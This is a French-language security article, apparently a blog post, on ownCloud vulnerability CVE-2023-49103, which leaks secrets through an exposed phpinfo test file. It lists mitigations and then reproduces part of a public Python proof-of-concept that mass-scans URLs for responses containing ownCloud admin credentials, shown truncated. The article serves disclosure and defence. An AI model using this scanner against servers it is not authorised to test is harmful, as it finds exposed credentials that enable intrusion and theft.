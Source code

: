 ### A retenir

- Désactiver l'application graphapi n'élimine pas la vulnérabilité (ça serait trop simple sinon 😂)
- Affecte aussi les environnements non conteneurisés.
- Les conteneurs Docker datant d'avant février 2023 ne sont pas vulnérables.

### Les protections

Comment se protéger de cette vulnérabilité ? Il existe plusieurs méthodes : 

1. Supprimer le fichier `owncloud/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php`.
2. Désactiver la fonction `phpinfo` si possible.
3. Modifier les secrets suivants
   - Mot de passe administrateur ownCloud
   - Identifiants du serveur de messagerie
   - Identifiants de la base de données
   - Clé d'accès au magasin d'objets/S3

### PoC

Un PoC est disponible pour détecter la présence du fichier GetPhpInfo.php : https://github.com/creacitysec/CVE-2023-49103/blob/main/exploit.py

```py
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor
from colorama import Fore, Style
import argparse
import queue
from alive_progress import alive_bar

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def check_phpinfo(url):
    try:
        response = requests.get(url, verify=False)  # Bypass SSL verification
        if response.status_code == 200 and 'OWNCLOUD_ADMIN_' in response.text:
            return True
    except requests.RequestException:
        pass
    return False

def process_urls(url_queue, output_file, update_bar):
    with open(output_file, 'a') as out:
        while True:
            url = url_queue.get()
            if url is None:
                url_queue.task_done()
                break  # Sentinel value to indicate completion
            try:
                if check_phpinfo(url):
                    print(Fore.GREEN + "Valid: " + url + Style.RESET_ALL)
                    out.write(url + '\n')
                else:
                    print(Fore.RED + "Invalid: " + url + Style.RESET_ALL)
            except Exception as e:
                print(Fore.YELLOW + f"Error processing {url}: {e}" + Style.RESET_ALL)
            finally:
                url_queue.task_done()
                update_bar()  # Update the progress bar

def process_file(file_path, output_file):
    urls = []
```
